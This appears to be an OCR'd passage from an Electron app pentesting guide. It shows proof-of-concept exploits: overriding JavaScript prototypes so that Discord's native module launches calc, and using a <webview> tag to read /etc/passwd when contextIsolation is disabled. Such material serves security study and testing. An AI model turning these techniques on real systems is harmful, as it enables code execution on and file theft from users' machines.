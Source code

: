 **#prototype_overwrite:**

Review the code of the main renderer and identify where the built-in JavaScript function is used (`Array.prototype.join` or `String.prototype.indexOf` any other), 

```jsx
RegExp.prototype.test=function(){
    return false;
}
Array.prototype.join=function(){
    return "calc";
}
DiscordNative.nativeModules.requireModule('discord_utils').getGPUDriverVersions();
```

Example of the `getGPUDriverVersions` function:

```jsx
module.exports.getGPUDriverVersions = async () => {
  if (process.platform !== 'win32') {
    return {};
  }

  const result = {};
  const nvidiaSmiPath = `${process.env['ProgramW6432']}/NVIDIA Corporation/NVSMI/nvidia-smi.exe`;

  try {
    result.nvidia = parseNvidiaSmiOutput(await execa(nvidiaSmiPath, []));
  } catch (e) {
    result.nvidia = {error: e.toString()};
  }

  return result;
};
```

## Reading Local Files through the `<webview>` tag

**For more details see the original research:** [****Facebook Messenger Desktop App Arbitrary File Read****](https://medium.com/@renwa/facebook-messenger-desktop-app-arbitrary-file-read-db2374550f6d)

If `contextIsolation` is set to `false`, you can try to use `<webview>` (similar to `<iframe>`, but it can load local files) to read local files and exfiltrate them: using something like  `<webview src="file:///etc/passwd"></webview>`

```js
<webview src="file:///etc/passwd"></webview>
webview = document.querySelector("webview")
webview.addEventListener('dom-ready', () => {
	setTimeout(function(){
		webview.executeJavaScript("alert(`Stolen page:\n\n`+document.body.innerText)")
	},1000)	
})

```
